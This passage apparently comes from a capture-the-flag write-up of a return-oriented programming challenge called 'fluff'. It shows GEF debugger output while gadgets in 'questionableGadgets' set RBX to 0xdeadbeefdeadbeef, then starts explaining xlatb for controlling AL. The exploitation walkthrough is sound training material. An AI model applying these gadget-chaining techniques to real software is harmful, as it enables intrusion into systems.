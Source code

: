 ```
$r11   : 0x246             
$r12   : 0x0000000000400520  →  <_start+0> xor ebp, ebp
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffc7de4f900│+0x0000: 0x00007ffc7de4f90a  →  0x0607000000010000    ← $rsp
0x00007ffc7de4f908│+0x0008: 0x0000000100000000
0x00007ffc7de4f910│+0x0010: 0x0000000000400607  →  <main+0> push rbp
0x00007ffc7de4f918│+0x0018: 0x00007fcc736a27d9  →  <init_cacheinfo+297> mov rbp, rax
0x00007ffc7de4f920│+0x0020: 0x0000000000000000
0x00007ffc7de4f928│+0x0028: 0xcda5ee4fa35b68fe
0x00007ffc7de4f930│+0x0030: 0x0000000000400520  →  <_start+0> xor ebp, ebp
0x00007ffc7de4f938│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40062b <questionableGadgets+3> pop    rcx
     0x40062c <questionableGadgets+4> add    rcx, 0x3ef2
     0x400633 <questionableGadgets+11> bextr  rbx, rcx, rdx
 →   0x400638 <questionableGadgets+16> ret    
   ↳  0x7ffc7de4f90a                  add    BYTE PTR [rax], al
      0x7ffc7de4f90c                  add    DWORD PTR [rax], eax
      0x7ffc7de4f90e                  add    BYTE PTR [rax], al
      0x7ffc7de4f910                  (bad)  
      0x7ffc7de4f911                  (bad)  
      0x7ffc7de4f912                  add    BYTE PTR [rax], al
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "fluff", stopped 0x400638 in questionableGadgets (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400638 → questionableGadgets()
[#1] 0x7ffc7de4f90a → add BYTE PTR [rax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p/x $rbx
$1 = 0xdeadbeefdeadbeef
```

Success! We have successfully written `0xdeadbeefdeadbeef` to the `RBX` register!

## Crafting the Exploit - Controlling AL

The `xlatb` instruction is equivalent to the following:

```
AL = [RBX + unsigned AL]
```
